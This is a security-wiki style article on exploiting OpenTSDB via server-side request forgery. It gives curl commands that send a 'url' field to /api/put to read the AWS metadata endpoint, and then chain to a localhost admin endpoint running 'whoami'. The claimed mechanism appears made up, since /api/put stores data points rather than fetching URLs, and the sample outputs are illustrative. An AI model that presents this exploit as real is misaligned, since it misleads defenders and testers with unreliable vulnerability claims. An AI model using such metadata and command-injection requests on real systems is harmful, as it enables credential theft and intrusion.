

# OpenTSDB

## Context

This article demonstrates the exploitation of OpenTSDB via Server-Side Request Forgery (SSRF) to interact with internal HTTP services and potentially achieve remote code execution (RCE). It assumes that the reader is familiar with HTTP protocol fundamentals, server-client architecture, and general SSRF exploitation techniques.

## Theory

### OpenTSDB HTTP API and Query Handling

OpenTSDB is a distributed time series database that provides an HTTP API for querying and managing data. Certain endpoints within OpenTSDB accept user-supplied URLs, which are used for importing data or interacting with plugins. This functionality presents a vulnerability if the input is not properly validated. An attacker could exploit this to perform SSRF attacks, thereby making the OpenTSDB server request arbitrary HTTP resources.

**Vulnerability Model:** The lack of stringent validation of user-supplied URLs turns these endpoints into potential SSRF vectors. Attackers can use these vectors to interact with internal or external HTTP services, which should not normally be accessible to the attacker.

### SSRF Exploitation in OpenTSDB

**Attack Sequence:** An attacker can craft a malicious HTTP request that triggers OpenTSDB to fetch a resource from a specified URL. If the URL is internal or points to an otherwise restricted service, the SSRF allows the attacker to access these services or execute further attacks.

**Protocol Weakness:** The vulnerability often arises because OpenTSDB does not enforce proper URL scheme or host filtering. This omission enables attackers to craft requests that access internal HTTP services or sensitive metadata endpoints that are not intended to be exposed externally.

### Remote Code Execution via SSRF

SSRF can be a stepping stone to remote code execution. By leveraging SSRF to interact with internal services—such as cloud metadata APIs or under-secured admin panels—attackers can trigger secondary vulnerabilities that lead to RCE.



## Practice

### SSRF Exploitation via OpenTSDB HTTP API

To perform SSRF exploitation using the OpenTSDB HTTP API, an attacker may execute the following steps:

1. **Trigger SSRF by submitting a malicious request:**

    ```bash
    curl -X POST 'http://target-opentsdb:4242/api/put' -d '{"url":"http://169.254.169.254/latest/meta-data/"}'
    ```

    This request references the AWS metadata endpoint, aiming to retrieve sensitive information stored in the cloud environment.

2. **Observation of internal metadata:**

    If successful, the response may look like:

    ```text
    {"status":"success","data":"<metadata response>"}
    ```

    This result indicates that SSRF is successful, allowing access to internal metadata that is not exposed to external networks.

### Chaining SSRF to Achieve Remote Code Execution

The exploitation chain can be extended to achieve remote code execution by targeting services with command execution vulnerabilities:

1. **Target an internal admin interface:**

    ```bash
    curl -X POST 'http://target-opentsdb:4242/api/put' -d '{"url":"http://localhost:8080/admin/exec?cmd=whoami"}'
    ```

    This assumes the attacker has identified an admin interface vulnerable to command injection.

2. **Confirmation of command execution:**

    The resulting output might be:

    ```text
    {"status":"success","data":"opentsdb"}
    ```

    This output demonstrates that SSRF can facilitate command execution and provide a path to RCE if the vulnerable endpoint is present.

## Tools

- **curl**
- **Burp Suite**